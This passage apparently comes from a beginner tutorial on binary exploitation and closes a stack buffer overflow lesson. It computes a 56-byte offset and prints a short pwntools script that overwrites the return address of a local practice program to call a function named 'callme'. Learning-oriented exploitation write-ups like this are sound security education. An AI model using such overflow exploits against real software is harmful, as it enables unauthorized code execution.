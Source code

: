 The address of the function `callme` is 0x4011b6 which means that we can call the function `callme` if we somehow write the value `0x4011b6` at the address `0x7fffffffddd8`. In this case, sending 56 bytes of junk data followed by the address of `callme` will do the job. We can use `pwntools` to write the exploit.

```
#!/usr/bin/env python3

from pwn import *
p = process("./prog")
payload = b'a'*56 + p64(0x4011b6)
p.recvline()
p.sendline(payload)
p.interactive()

```
<img src='https://github.com/0xSh4dy/0xSh4dy.github.io/raw/master/assets/img/pwn/pwn_03.png'>

Awesome, we successfully called the function `callme` by exploiting a buffer overflow.

References
[https://youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN](https://youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)

<br>
[https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

<br>
[https://guyinatuxedo.github.io/](https://guyinatuxedo.github.io/)

<br>
[https://ctf101.org/](https://ctf101.org/)